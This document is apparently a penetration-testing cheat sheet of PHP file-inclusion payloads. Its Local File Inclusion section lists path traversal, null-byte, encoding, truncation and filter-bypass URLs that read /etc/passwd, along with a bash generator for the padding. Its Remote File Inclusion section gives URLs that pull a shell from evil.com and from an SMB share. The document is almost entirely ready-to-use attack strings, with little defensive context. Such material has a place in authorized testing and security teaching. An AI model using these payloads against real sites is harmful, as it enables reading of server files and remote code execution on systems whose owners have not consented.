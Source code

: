 ## Local File Inclusion
### Filename Prefix
If the following code is used to handle parameters:
```php
include("lang_" . $_GET['language']);
```
Then, if we try to traverse the directory with `../../../etc/passwd`, the final string would be `lang_../../../etc/passwd`, which is invalid.
so, instead of directly using path traversal, we can prefix a `/` before our payload, and this should consider the prefix as a directory.
```txt
http://example.com/index.php?language=/../../../../etc/passwd
```
### Approved Paths
Some web applications may also use Regular Expressions to ensure that the file being included is under a specific path. For example, the web application we have been dealing with may only accept paths that are under the `./languages` directory, as follows:
```php
if(preg_match('/^\.\/languages\/.+$/', $_GET['language'])) {
    include($_GET['language']);
} else {
    echo 'Illegal path specified!';
}
```
To bypass this, we may use path traversal and start our payload with the approved path, and then use `../` to go back to the root directory and read the file we specify, as follows:
```txt
http://example.com/index.php?language=./languages/../../../../etc/passwd
```
### Null byte
```txt
http://example.com/index.php?page=../../../etc/passwd%00
```
> Note: Only PHP versions before 5.5 were vulnerable to Null Byte bypass.
### Double encoding
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
```
```txt
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### UTF-8 encoding
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```
```txt
http://example.com/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd%00
```
### Path and dot truncation
On most PHP installations a filename longer than `4096` bytes will be cut off so any excess characters will be thrown away. it is also important to note that we would also need to start the path with a non-existing directory for this technique to work.
```txt
http://example.com/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]
```

Additionally, we can automate this using the following script:
```bash
echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

> Note: Only PHP versions before 5.5 were vulnerable to Null Byte bypass.
### Filter bypass tricks
```txt
http://example.com/index.php?page=....//....//etc/passwd
```
```txt
http://example.com/index.php?page=..///////..////..//////etc/passwd
```
```txt
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd
```
### Using Base64
[One LFI bypass to rule them all (using base64)](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)
## Remote File Inclusion
### Null byte
```txt
http://example.com/index.php?page=http://evil.com/shell.txt%00
```
### Double encoding
```txt
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```
### Bypass `allow_url_include`
When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows target using the `smb` protocol.
1. Create a share open to everyone
2. Write a PHP code inside a file: `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`